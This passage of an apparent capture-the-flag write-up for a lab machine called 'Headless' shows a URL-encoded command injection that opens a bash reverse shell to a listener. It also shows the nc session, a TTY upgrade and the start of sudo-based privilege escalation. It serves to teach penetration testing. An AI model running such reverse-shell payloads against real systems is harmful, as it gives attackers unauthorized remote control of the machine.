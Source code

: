 ```bash
;/bin/bash+-c+'bash+-i+>%26+/dev/tcp/10.10.14.5/1337+0>%261'
```
I set up a listener on port 1337

### Shell as dvir
The shell connected! I had a foothold on the machine as the user "dvir"

```bash
$ nc -lvnp 1337
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::1337
Ncat: Listening on 0.0.0.0:1337
Ncat: Connection from 10.10.11.8.
Ncat: Connection from 10.10.11.8:35180.
bash: cannot set terminal process group (1352): Inappropriate ioctl for device
bash: no job control in this shell
dvir@headless:~/app$ whoami
whoami
dvir
```

I upgraded my shell to a more interactive one using Python

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
CTRL+Z
stty raw -echo; fg
export TERM=xterm
```

user.txt

```text
d3db290e1ee....
```

## Privilege escalation
I used `sudo -l` to check for any sudo privileges

```bash
dvir@headless:~$ sudo -l
Matching Defaults entries for dvir on headless:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty

User dvir may run the following commands on headless:
    (ALL) NOPASSWD: /usr/bin/syscheck
```

dvir user could run the `/usr/bin/syscheck` without a password using sudo

```bash
dvir@headless:~$ cat /usr/bin/syscheck 
#!/bin/bash

if [ "$EUID" -ne 0 ]; then
  exit 1
fi

last_modified_time=$(/usr/bin/find /boot -name 'vmlinuz*' -exec stat -c %Y {} + | /usr/bin/sort -n | /usr/bin/tail -n 1)
formatted_time=$(/usr/bin/date -d "@$last_modified_time" +"%d/%m/%Y %H:%M")
/usr/bin/echo "Last Kernel Modification Time: $formatted_time"

disk_space=$(/usr/bin/df -h / | /usr/bin/awk 'NR==2 {print $4}')
/usr/bin/echo "Available disk space: $disk_space"
```